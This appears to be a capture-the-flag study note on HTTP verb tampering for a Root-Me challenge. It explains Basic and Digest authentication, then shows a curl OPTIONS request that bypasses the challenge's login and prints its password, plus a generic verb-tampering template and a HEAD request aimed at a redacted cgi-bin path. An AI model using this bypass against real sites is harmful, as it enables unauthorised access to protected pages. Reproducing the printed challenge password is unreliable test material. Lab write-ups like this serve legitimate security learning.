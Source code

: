 # HTTP - Verb tampering



Summary:

1. when there's authentication pop up, use http verb tampering
2. After finding some directories with directory busting program, visit 401 and 403 with this way.

***

Info

HTTP Authentication: Basic and Digest Access Authentication

Positioning at the Internet Layer: HTTP-Authentication is part of the HTTP-Protocol. The HTTP-Protocol is positioned at Layer 5/Layer 6.

if one tries to enter the page -> authentication page pops up -> if the user enters credential -> server sends back either 403 or 200/302

***

Practical Request

GET **/web-serveur/ch8/** HTTP/1.1 Host: challenge01.root-me.org User-Agent: Mozilla/5.0 (X11; Linux x86\_64; rv:91.0) Gecko/20100101 Firefox/91.0 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,_/_;q=0.8 Accept-Language: en-US,en;q=0.5 Accept-Encoding: gzip, deflate Connection: close Cookie: \_ga\_SRYSKX09J7=GS1.1.1661155511.14.1.1661156300.0.0.0; \_ga=GA1.1.536088429.1661133467 Upgrade-Insecure-Requests: 1 Authorization: Basic YWRtaW46YWRtaW4=

where

Basic YWRtaW46YWRtaW4=

is

base64encode(admin: admin)

and

GET (directory or page you want to access)

\->

while for Digest Access Authentication:

Password won't be sent in clear text. The password will be sent encrypted (normally as md5 hash of the password and some other values)

\-> Server requests Authorisation: HTTP/1.1 401 Unauthorized WWW-Authenticate: Digest realm="Protected", qop="auth,auth-int", nonce="dcd98b7102dd2f0e8b11d0f600bfb0c093", opaque="5ccc069c403ebaf9f0171e9517f40e41" -> Client replies Authorisation: Authorization: Digest username="frank", realm="Protected", nonce="dcd98b7102dd2f0e8b11d0f600bfb0c093", uri="/dir/index.html", qop=auth, nc=00000001, cnonce="0a4f113b", response="6629fae49393a05397450978507c4ef1", opaque="5ccc069c403ebaf9f0171e9517f40e41"

\->

Explanation

realm: Displayed to User in Login-Formula (like at Basic Access Authentication) qop: quality of protection Is required for backward compatibility with RFC 2069

* The value "auth" indicates authentication;
* The value "auth-int" indicates authentication with integrity protection. Therefore the Hash value is calculated over the whole entity-body. nonce: server-specified quoted data string uniquely generated each time a 401 response is made. It will be used for the encryption of the username/password pair. opaque: quoted data string replied unchanged the whole session by the client; it might be used for example for session tracking by the web server. This field is optional. stale: flag set if the client or the server requests a new nonce value TRUE: - if the client wants to reauthenticate
* if the server gets an outdated nonce value but correct user/password from the client calculated with this outdated nonce value algorithm: one or more algorithms used to encrypt user/password. Normally MD5 is used to encrypt the username/password pair within the Digest Access Authentication.

***

How the response is encrypted Depending on quality of protection it’s a Hash value of various attributes: If quality of protection is “auth” and the Algorithm is MD5 the response will be calculated this way: The Response is the MD5 Hash value of various Attribute values are merged to a long String value separated by colons: Response = MD5( username-value:realm-value:password:nonce- value:nc-value:cnonce-value:qop-value:request-method- value:digest-uri-value )

***

How to bypass?

Use the http verb other than GET:

└─$ **curl -X OPTIONS http://challenge01.root-me.org/web-serveur/ch8/**

```
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.0 Transitional//EN">
<html><head>
</head>

<h1>Mot de passe / password : a23e$dme96d3saez$$prap
</h1>
</body></html>
```

* curl -X (VERB) host
* curl -I HEAD http://redacted/cgi-bin/abcd.cgi?tmenu=main\_frame\&smenu=main\_frame
